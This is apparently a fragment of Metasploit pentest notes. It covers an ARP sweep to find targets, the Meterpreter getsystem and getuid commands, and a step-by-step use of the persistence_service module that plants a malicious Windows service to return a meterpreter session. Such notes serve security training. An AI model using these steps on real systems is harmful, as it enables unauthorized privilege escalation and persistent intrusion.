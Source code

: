 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
```

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



```
